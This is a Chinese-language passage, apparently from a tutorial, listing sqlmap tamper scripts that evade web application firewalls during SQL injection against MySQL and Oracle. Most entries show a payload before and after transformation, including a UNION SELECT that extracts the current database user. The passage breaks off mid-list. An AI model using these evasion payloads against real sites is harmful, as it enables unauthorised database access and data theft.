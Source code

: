 20、halfversionedmorekeywords.py

作用：当数据库为 mysql 时绕过防火墙，每个关键字之前添加

```
("value' UNION ALL SELECT CONCAT(CHAR(58,107,112,113,58),IFNULL(CAST(CURRENT\_USER() AS CHAR),CHAR(32)),CHAR(58,97,110,121,58)), NULL, NULL# AND 'QDWa'='QDWa")替换后"value'/\*!0UNION/\*!0ALL/\*!0SELECT/\*!0CONCAT(/\*!0CHAR(58,107,112,113,58),/\*!0IFNULL(CAST(/\*!0CURRENT\_USER()/\*!0AS/\*!0CHAR),/\*!0CHAR(32)),/\*!0CHAR(58,97,110,121,58)),/\*!0NULL,/\*!0NULL#/\*!0AND 'QDWa'='QDWa"
```

四、Oracle 数据库

1、greatest.py

作用：绕过过滤’>’ , 用 GREATEST 替换大于号。

```
('1 AND A > B')替换后'1 AND GREATEST(A,B+1)=A'
```

2、apostrophenullencode.py

作用：绕过过滤双引号，替换字符和双引号。

```
("1 AND '1'='1")替换后'1 AND %00%271%00%27=%00%271'
```

3、between.py

作用：用 between 替换大于号（>）

```
('1 AND A > B--')替换后'1 AND A NOT BETWEEN 0 AND B--'
```

4、charencode.py

作用：url 编码

```
SELECT FIELD FROM%20TABLE替换后%53%45%4c%45%43%54%20%46%49%45%4c%44%20%46%52%4f%4d%20%54%41%42%4c%45
```

5、randomcase.py

作用：随机大小写

```
INSERT替换后 InsERt
```

6、charunicodeencode.py

作用：字符串 unicode 编码

```
SELECT FIELD%20FROM TABLE替换后%u0053%u0045%u004c%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004c%u0044%u0020%u0046%u0052%u004f%u004d%u0020%u0054%u0041%u0042%u004c%u0045′
```

7、space2comment.py
